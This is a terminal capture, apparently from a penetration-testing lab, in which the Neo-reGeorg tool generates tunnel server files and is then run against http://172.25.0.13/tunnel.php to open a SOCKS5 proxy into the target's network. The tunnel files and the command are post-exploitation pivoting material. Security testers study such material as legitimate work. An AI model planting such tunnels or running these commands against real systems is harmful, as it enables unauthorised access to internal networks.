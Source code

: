 ```
          '$$$$$$$$$$'  $$$$          version 5.2.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.go
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp

┌──(root㉿kali)-[/home/tom/桌面/tools/Neo-reGeorg-5.2.0]
└─# python3 neoreg.py -k password  -u http://172.25.0.13/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 5.2.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://172.25.0.13/tunnel.php
+------------------------------------------------------------------------+
```
